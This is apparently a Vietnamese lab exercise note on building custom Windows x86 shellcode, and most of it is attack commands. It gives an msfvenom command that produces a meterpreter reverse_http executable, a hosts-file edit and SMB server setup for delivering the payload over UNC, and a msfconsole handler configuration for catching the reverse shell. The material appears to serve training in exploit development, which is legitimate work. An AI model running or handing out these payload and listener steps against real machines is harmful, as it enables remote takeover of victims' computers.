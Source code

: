 # Bài 2:
Lưu ý chụp lại các đoạn có IP của máy Debug sau khi đã khai thác thành công để làm minh chứng.  
[Các template các hàm](https://github.com/Cl0wnK1n9/ShellcodeTemplate-windowx86/tree/main/Functions)  

Để load DLL thì đổi sang ASCII sang hex (Lưu ý trong code viết bytes theo chiều ngược lại) \
Để load API thì tính hash: \
[Code tính hash tên các API](https://github.com/10u15hack1ng/x86Win-Notes/blob/main/Custom%20Shellcode/getAPIhash.py)

Để sinh payload bằng metasploit trên máy tấn công tại thư mục /home/kali/:
```
msfvenom -p windows/meterpreter/reverse_http HOST=192.168.45.178 LPORT=4443 -f exe -o met.exe
```

Thay đổi file hosts trên máy Windows để tạo kết nối UNC sang máy tấn công.  
Dùng notepad để thêm 1 dòng trong file hosts.
```
# localhost name resolution is handled within DNS itself.
#  127.0.0.1       localhost
#  ::1             localhost
    <Địa chỉ IP>   kali
```

Để tạo SMB server trên máy tấn công ([Nếu không có lệnh smbserver.py]())
```
sudo smbserver.py met /home/kali/ -smb2support
```

Khi đã chạy smb server thành công thì có thể kiểm tra bằng lệnh sau trên máy Windows:
```
pushd <Đường dẫn UNC>
# VD: pushd \\ubuntu\folder
# Khi đó trong terminal sẽ hiện lên folder của bên máy đang chạy SMB 

# Thoát đường dẫn
popd <Đường dẫn UNC>
```

Thực thi shellcode (file python) trên máy Windows và tạo listener trên máy tấn công với các lệnh sau:
```
# Exploit after met.exe execution
$ msfconsole
msf> use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_http
msf exploit(handler) > set LHOST consulting.example.org
msf exploit(handler) > set LPORT 4443
msf exploit(handler) > set SessionCommunicationTimeout 0
msf exploit(handler) > set ExitOnSession false
msf exploit(handler) > exploit -j
```

Tham khảo cách viết: [Shellcode trong sách](https://github.com/10u15hack1ng/x86Win-Notes/blob/main/Custom%20Shellcode/shellcode_NO_CHANGE_PLEASE.py)  

Trong quá trình debug, có thể dùng lệnh `dds <địa chỉ>` để kiểm tra các hàm đã được lưu đúng chưa.  
Nếu các hàm đã được lưu đúng thì sẽ hiện tên hàm ở trong output.
